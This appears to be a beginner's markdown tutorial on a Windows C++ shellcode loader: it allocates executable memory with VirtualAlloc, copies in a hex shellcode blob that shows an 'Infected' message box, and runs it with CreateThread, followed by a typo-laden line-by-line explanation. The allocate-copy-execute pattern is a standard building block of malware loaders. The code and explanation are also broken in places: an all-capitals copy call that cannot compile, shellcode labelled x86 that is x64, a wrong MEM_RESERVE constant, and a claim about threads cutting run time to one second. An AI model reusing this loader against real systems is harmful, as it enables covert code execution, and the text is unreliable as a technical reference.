

# CODE:
```cpp
#include <Windows.h>
#include <stdio.h>

int main(int argc, char** argv) {
    // Define MessageBox shellcode (x86)
    unsigned char shellcode[] =
        "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41"
        "\x51\x41\x50\x52\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b"
        "\x52\x18\x51\x48\x8b\x52\x20\x56\x4d\x31\xc9\x48\x0f\xb7"
        "\x4a\x4a\x48\x8b\x72\x50\x48\x31\xc0\xac\x3c\x61\x7c\x02"
        "\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51"
        "\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18"
        "\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00"
        "\x48\x85\xc0\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x8b\x48"
        "\x18\x49\x01\xd0\x50\xe3\x56\x48\xff\xc9\x4d\x31\xc9\x41"
        "\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d"
        "\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39"
        "\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b"
        "\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48"
        "\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41"
        "\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x4b\xff\xff\xff\x5d\xe8\x0b\x00\x00\x00\x75"
        "\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x59\x41\xba\x4c"
        "\x77\x26\x07\xff\xd5\x49\xc7\xc1\x00\x00\x00\x00\xe8\x13"
        "\x00\x00\x00\x49\x6d\x20\x61\x6e\x63\x68\x6f\x76\x79\x20"
        "\x42\x72\x6f\x75\x73\x6b\x69\x00\x5a\xe8\x09\x00\x00\x00"
        "\x49\x6e\x66\x65\x63\x74\x65\x64\x00\x41\x58\x48\x31\xc9"
        "\x41\xba\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0"
        "\xb5\xa2\x56\xff\xd5";

    // Allocate memory using VirtualAlloc
    LPVOID allocated_mem = VirtualAlloc(NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);

    if (allocated_mem == NULL) {
        printf("Failed to allocate memory: %d\n", GetLastError());
        return 1;
    }

    printf("Memory Allocated at address: 0x%p\n", allocated_mem);
    // Write shellcode to the allocated memory
    RTLCOPYMEMORY(ALLOCATED_MEM, SHELLCODE, SIZEOF(SHELLCODE));

    printf("Shellcode is written to allocated memory!\n");
    // Create thread to execute the MessageBox shellcode
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)allocated_mem, NULL, 0, NULL);

    if (hThread == NULL) {
        printf("Failed to create thread: %d\n", GetLastError());
        return 1;
    }
    // Halt execution until created thread returns
    WaitForSingleObject(hThread, INFINITE);
    // Close handle to thread
    CloseHandle(hThread);
    // Free allocated memory
    VirtualFree(allocated_mem, 0, MEM_RELEASE);

    return 0;
}
```


# Explanation:

1. int main(int argc, char** argv): Starting point of the program.
2. unsigned char shellcode[] = [shellcode] -->
    - Used unsigned Char shellcode for some reasons:
        - Represents byte per byte (Raw byte)
        - Reject probles with the puntation.
        - Coherence with the memory.
        - Manipulate Binary.
   - This part of the code is the instructrion of ensambler in hexadecimal format.
   - The code is designed to user32.dll and meaning the shell code to execute.

3. LPVOID allocated_mem = VirtualAlloc(NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
    - This is the allocated memory for our shellcodem, and we use "VirtualAlloc" for that.
    - This take some parameters the Null the OS colocate the firt parameter whaever they want
    - The second parameter is [sizeof(shellcode)] this is how much memory we want to allocate, since we wat to allocate  enough space for our shell code.
    - Third parameter is the  allocation type,  For commit reserved pages in one call use [MEM_COMMIT | MEM_RESERVE] toguether.
        - For commit we must reserve the space of memory. The pipe line is the repesentation of logic a b = A + B. .
        If we can see the value of the MEM_RESERVE and MEM_COMMIT:
```c
#define MEM_COMMIT                      0x00001000
#define MEM_RESERVE                     0x0000200
```
The enums in C data type defined by user that map numerical vales. In the other way we can >> hex(0x1000 + 0x2000) '0x3000', Is the same we can put the [0x3000].

- The last parameter is the is the protection flag for this memory page [value 0x40].

IF the VirtualAlloc runs okey, it'll return pointer to a base addrs or the start addr of the allocate memory page.
Pointeres are variables that store addres which point to some datatype in memory.
A void pointer is just to undifined data type on the memory hence the term void.

4. Shellcode to allocate memory: [ RTLCOPYMEMORY(ALLOCATED_MEM, SHELLCODE, SIZEOF(SHELLCODE));]  the api has the sam funcionality as the memcpy funtionalita like:
[memcpy(allocated_mem. shellcode, sixeof(shellcode))].
    - allocated_mem -> Destination
    - shellcode -> the sorce to read from
    - sizeof -> which set to the size of our shellcode.

5. The final step is to execute the shellcode using the CreateThread api: this api takes in 6 parramerter:
    We are intersting in the third parameter which is entry point for the created threads. Using threads to execute each funtion in parallel and hence reduce the execution
    time to 1 sec.
    Now the thrid parameter is set to start address of our shellcode and type casted to [LPTHREAD_START_ROUTINE].
    When we type this type cast this memory [allocated_mem] with this type of cast [LPTHREAD_START_ROUTINE],  we telling the system this is the entry point i want to create
    thread to start execution form the start of the code that [Entry point 0x007F0000]. If the thread create susscesfully the api will returned the handle to the created thread.
    The hadle is yet another void pointer to the created threads.

6. WaitForSingleObject --> Now since we don't want to terminate program until our shellcode we will pause or hold the execution using that.
   This API takes to parameter the thread handle and the amount of time we want to wait for, until the program execute the threads returns or finishes execution, we set it IFINITE
   and after the thread returns and our shell code is exevuted the allocated memory using [VirtualFree].

